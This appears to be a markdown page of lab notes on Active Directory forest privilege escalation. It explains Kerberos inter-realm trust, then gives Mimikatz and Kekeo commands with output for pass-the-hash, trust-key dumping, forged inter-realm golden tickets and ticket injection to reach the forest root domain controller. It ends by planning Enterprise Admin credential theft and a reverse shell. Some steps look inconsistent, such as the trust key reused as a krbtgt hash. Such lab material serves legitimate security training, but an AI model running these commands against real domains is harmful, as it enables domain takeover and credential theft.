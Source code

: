 # Across Domains Implicit Two-Way Trust Relationship

### Across Forests
A trust relationship needs to be established.

### Child to Forest Root
Domains in the same forest have an implicit two-way trust with other domains. There is a trust key between the parent and child domains. There are two ways of escalating privileges between two domains of the same forest:
- Krbtgt hash
- Trust tickets

### Kerberos Authentication Process
1. Steps 1 to 3 are common.
2. Step 4: The domain controller (DC) checks the global catalog and finds out this service is not in its domain but in the parent domain. So the DC responds with an inter-realm TGT. Our machine receives the inter-realm TGT (signed and encrypted with the trust key) also called a referrer ticket.
3. Step 5: This inter-realm TGS is presented to the DC of the parent domain. The only validation the parent DC does in this case is if it can decrypt the inter-realm TGT using the trust key.
4. Step 6: The DC decrypts the inter-realm TGS.
5. Step 7: The DC responds with a TGS which the client presents to the application server, which then decides on privileges.

## Privilege Escalation - Child to Parent using Trust Tickets
### Step-by-Step Instructions
1. Once the domain admin is compromised, switch to the domain admin:
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe"'
```

2. Look for the cross forest or forest root trust key for privilege escalation. Retrieve the trust key for the trust between dollarcorp and moneycorp using mimikatz:
```powershell
PS C:\Windows\system32> Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc
```

3. Find the trust key:
```powershell
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Domain: MONEYCORP.LOCAL (mcorp / S-1-5-21-280534878-1496970234-700767426)
 [  In ] DOLLARCORP.MONEYCORP.LOCAL -> MONEYCORP.LOCAL
    * aes256_hmac       6520498fb98b6bf3c59b13d188b77227ae3200aa05cdad783a97500165128583
    * aes128_hmac       e65aef4c7c0d83964f6dc62560ab1aa6
    * rc4_hmac_nt       3cbaa731b987e575822f00ddd6701a7b
```

4. Create the inter-realm TGT:
```powershell
PS C:\AD\Tools\kekeo_old> Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /rc4:3cbaa731b987e575822f00ddd6701a7b /service:krbtgt /target:moneycorp.local /ticket:C:\AD\Tools\kekeo_old\trust_tkt.kirbi"'
```
![image](https://github.com/user-attachments/assets/0e24cd36-c72d-419e-977e-3d5e195c70b5)

5. Request to create a TGS ticket for a service (CIFS) in the parent domain (moneycorp.local):
```powershell
PS C:\AD\Tools\kekeo_old> .\asktgs.exe C:\AD\Tools\kekeo_old\trust_tkt.kirbi CIFS/mcorp-dc.moneycorp.local
```

6. Present the TGS to the target service:
```powershell
PS C:\AD\Tools\kekeo_old> .\kirbikator.exe lsa .\CIFS.mcorp-dc.moneycorp.local.kirbi
```

7. Use the TGS to access the targeted service (you may need to use it twice). For example:
```powershell
PS C:\AD\Tools\kekeo_old> .\kirbikator.exe lsa .\CIFS.mcorp-dc.moneycorp.local.kirbi
Destination : Microsoft LSA API (multiple)
 < .\CIFS.mcorp-dc.moneycorp.local.kirbi (RFC KRB-CRED (#22))
 > Ticket Administrator@dollarcorp.moneycorp.local-CIFS~mcorp-dc.moneycorp.local@MONEYCORP.LOCAL : injected
```

8. Try to access the target service to confirm privilege escalation:
```powershell
PS C:\AD\Tools\kekeo_old> klist
PS C:\ad\tools\kekeo_old> ls \\mcorp-dc.moneycorp.local\c$
```

9. Gather the krbtgt hash, and request an inter-realm tgt once again:
```powershell
PS C:\AD\Tools> Invoke-Mimikatz -Command '""Kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /krbtgt:3cbaa731b987e575822f00ddd6701a7b /ticket:C:\AD\Tools\krbtgt_tkt.kirbi""'
```

10. Inject the ticket using mimikatz:
```powershell
PS C:\AD\Tools> Invoke-Mimikatz -Command '""Kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi""'
mimikatz(powershell) # kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi
```

11. Verify the TGT:
```powershell
PS C:\AD\Tools> klist
```
```
Current LogonId is 0:0xdac101e2

Cached Tickets: (1)

#0>     Client: Administrator @ dollarcorp.moneycorp.local
        Server: krbtgt/dollarcorp.moneycorp.local @ dollarcorp.moneycorp.local   --> krbtgt has done
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 7/15/2020 0:11:34 (local)
        End Time:   7/13/2030 0:11:34 (local)
        Renew Time: 7/13/2030 0:11:34 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:

PS C:\AD\Tools>
```

12. Extract credentials of the Enterprise Administrator for use in DC-Shadow and schedule a task on the forest root DC to execute a reverse shell:
```powershell
PS C:\AD\Tools> gwmi -class win32_operatingsystem -ComputerName mcorp-dc.moneycorp.local

System Directory : C:\Windows\system32 
Organization    :
Build Number     : 14393
Registered User  : Windows User
Serial Number    : 00377-80000-00000-AA549
Version         : 10.0.14393
```
Let’s extract credential of the Enterprise Administrator which can be used later for DC-Shadow. We will schedule a task on the forest root DC and execute a reverse shell on it.	
